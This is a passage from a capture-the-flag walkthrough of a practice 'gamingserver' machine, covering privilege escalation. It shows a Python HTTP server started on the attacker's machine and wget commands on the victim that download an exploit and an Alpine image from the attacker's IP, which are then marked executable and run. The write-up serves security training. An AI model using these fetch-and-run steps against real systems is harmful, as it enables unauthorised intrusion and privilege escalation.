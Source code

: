```
kali@kali:~/Desktop/thm/gamingserver/priv$ mv alpine-v3.12-x86_64-20201007_2302.tar.gz alpine.tar.gz
kali@kali:~/Desktop/thm/gamingserver/priv$ ls
alpine.tar.gz  build-alpine  exploit
```

Cool, let's start the HTTP server.

```
kali@kali:~/Desktop/thm/gamingserver/priv$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now a http server is being run inside the folder with these files on port 8000. Let's find our IP address using the ``ip a`` command. 

My IP is ``10.2.19.105/17``, so the http server can be referenced using ``10.2.19.105:8000/<filename>``.

Switching back to the victim machine, let's download the files needed to run the exploit.

```
john@exploitable:~$ wget 10.2.19.105:8000/exploit
--2020-10-08 03:07:35--  http://10.2.19.105:8000/exploit
Connecting to 10.2.19.105:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1500 (1.5K) [application/octet-stream]
Saving to: ‘exploit’

exploit                                              100%[=====================================================================================================================>]   1.46K  --.-KB/s    in 0s      

2020-10-08 03:07:35 (75.4 MB/s) - ‘exploit’ saved [1500/1500]

john@exploitable:~$ wget 10.2.19.105:8000/alpine.tar.gz
--2020-10-08 03:07:53--  http://10.2.19.105:8000/alpine.tar.gz
Connecting to 10.2.19.105:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3210251 (3.1M) [application/gzip]
Saving to: ‘alpine.tar.gz’

alpine.tar.gz                                        100%[=====================================================================================================================>]   3.06M   359KB/s    in 11s     

2020-10-08 03:08:04 (280 KB/s) - ‘alpine.tar.gz’ saved [3210251/3210251]

john@exploitable:~$ ls
alpine.tar.gz  exploit  user.txt
john@exploitable:~$ 
```

Great! both the files have been downloaded. Let's mark the exploit so we can run it using ``chmod +x exploit`` and run it using ``./exploit``. 
